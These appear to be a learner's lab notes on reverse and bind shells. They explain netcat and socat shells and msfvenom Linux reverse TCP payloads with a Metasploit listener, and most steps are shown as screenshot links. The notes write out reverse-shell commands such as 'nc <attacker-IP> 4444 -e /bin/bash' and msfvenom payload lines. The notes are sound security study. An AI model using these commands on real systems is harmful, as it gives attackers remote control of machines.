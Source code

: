 	- **Process**:
    1. The attacker sets up a listener on their own machine, waiting for incoming connections.
    2. The target machine runs a command to initiate a connection to the attacker's IP address and port.
    3. Once connected, the attacker can execute commands on the target machine through the shell.
    
- **Example Command**:
    `nc <attacker-IP> 4444 -e /bin/bash`
    
    Here, the target machine connects to the attacker's machine at `<attacker-IP>` on port `4444` and executes `/bin/bash` when the connection is established.


	 ssh connect to linux machine -> setting netcat listener on port 1234 -> reverse shell using 
	 `nc <machine-IP> <Port> -e /bin/bash`
 
	![[Pasted image 20240820193640.png]]
	![[Pasted image 20240820193754.png]]

	reverse shell using special command(with pipes):
	![[Pasted image 20240820194307.png]]
	![[Pasted image 20240820194336.png]]

3) **Reverse and bind shells using Socat on the Linux machine.**
	 ![[Pasted image 20240820200847.png]]
	![[Pasted image 20240820200922.png]]

	using special command (fully stable Linux tty reverse shell)
	![[Pasted image 20240820203805.png]]
	![[Pasted image 20240820203824.png]]


4) **Look through [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and try some of the other reverse shell techniques.**
   
	 ### **Linux Staged reverse TCP**
	`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf`

	 **Linux Stageless reverse TCP**
	`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf`

	generating the `linux` reverse shell msfvenom payload
	![[Pasted image 20240820231832.png]]

	generating multi/handler exploit serving as a listener using msfconsole ->
	 - set `payload/linux/x86/meterpreter/reverse_tcp` !!!
	![[Pasted image 20240820232015.png]]
	

	transfering the payload file to the target machine:
	![[Pasted image 20240820232346.png]]
	![[Pasted image 20240820232438.png]]

